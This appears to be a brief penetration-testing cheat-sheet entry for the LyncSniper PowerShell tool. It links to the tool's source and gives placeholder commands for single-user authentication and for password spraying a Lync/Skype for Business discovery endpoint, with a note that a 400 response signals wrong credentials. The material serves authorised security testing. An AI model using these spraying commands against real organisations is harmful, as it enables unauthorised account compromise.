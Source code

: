 ### Source
https://raw.githubusercontent.com/mdsecresearch/LyncSniper/master/LyncSniper.ps1  

### Authenticate with single user
```
Invoke-Authenticate -Username <user>@<domainIntern> -Password <password> -baseurl <lyncdiscoverUrl> -verbose
```

### Password spray (return 400 if credentials are wrong)
```
Invoke-LyncSpray -Delay 5000 -UserList <userFile> -Password <password> -AutoDiscoverURL <lyncdiscoverUrl> -verbose
```

